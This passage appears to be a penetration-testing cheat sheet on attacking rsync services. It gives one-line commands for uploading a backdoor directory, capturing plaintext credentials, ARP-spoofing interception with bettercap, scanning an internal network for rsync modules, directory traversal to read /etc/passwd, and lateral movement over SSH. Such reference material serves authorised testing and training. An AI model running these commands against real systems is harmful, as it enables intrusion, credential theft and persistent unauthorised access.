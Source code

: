 ## Persistence

### Establishing Backdoor via Rsync
- **Tool:** [[RSync]]
    ```bash
    rsync -avz --delete /backdoor/dir user@<target_ip>:/backdoor/dir
    ```
- **Description:** Uploads or synchronizes a backdoor directory to the target system, maintaining persistent access.

## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 873"
    ```
- **Description:** Capture traffic and extract plaintext credentials.

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
	```bash
	bettercap -iface <interface> -T <target_ip> --proxy
	```
- **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

## Internal Reconnaissance

### Network Discovery Using Rsync
- **Tool:** [[RSync]], [[Custom Scripts]]
    ```bash
    for ip in {1..254}; do rsync --list-only <username>@$ip::module; done
    ```
- **Description:** Scans internal network IPs for Rsync services and enumerates available modules.

### Directory Traversal
- **Tool:** [[Custom Scripts]]
	```bash
	rsync -avz rsync://<target_ip>/../../etc/passwd /tmp/
	```
- **Description:** Exploit directory traversal vulnerabilities in rsync configurations to access sensitive files.

## Lateral Movement, Pivoting, and Tunnelling

### Using Rsync for Lateral Movement
- **Tool:** [[RSync]], [[SSH]]
    ```bash
    rsync -avz --rsh="ssh -i ~/.ssh/id_rsa" /data user@<next_target_ip>:/data
    ```
- **Description:** Leverages Rsync over SSH to move laterally across systems by synchronizing data or uploading malicious files.
